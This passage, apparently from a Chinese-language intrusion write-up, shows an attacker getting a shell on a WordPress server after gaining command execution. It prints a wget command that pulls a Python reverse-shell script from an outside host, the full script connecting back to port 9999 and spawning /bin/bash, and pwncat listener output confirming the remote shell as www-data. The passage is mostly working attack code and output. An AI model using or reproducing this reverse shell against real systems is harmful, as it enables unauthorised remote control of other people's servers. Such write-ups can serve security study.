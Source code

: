 ![img](img/image_20240733-143347.png)

命令被成功执行了

尝试进行反弹 shell

```bash
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ wget 139.*.*.*:8008/reverse-python3.py
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ cat reverse-python3.py
import os,pty,socket
s=socket.socket()
s.connect(("139.*.*.*",9999))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("/bin/bash")
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ python3 --version
Python 3.8.10
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ python3 reverse-python3.py
```

成功收到回连的 shell

```bash
root@jmt-projekt:~# pwncat-cs -lp 9999
[14:38:51] Welcome to pwncat 🐈!
[14:39:31] received connection from 39.101.175.73:53808
[14:39:32] 39.101.175.73:53808: registered new host w/ db
(local) pwncat$ back
(remote) www-data@ubuntu-web:/var/www/html/wp-content/themes/twentytwentyone$ whoami
www-data
```
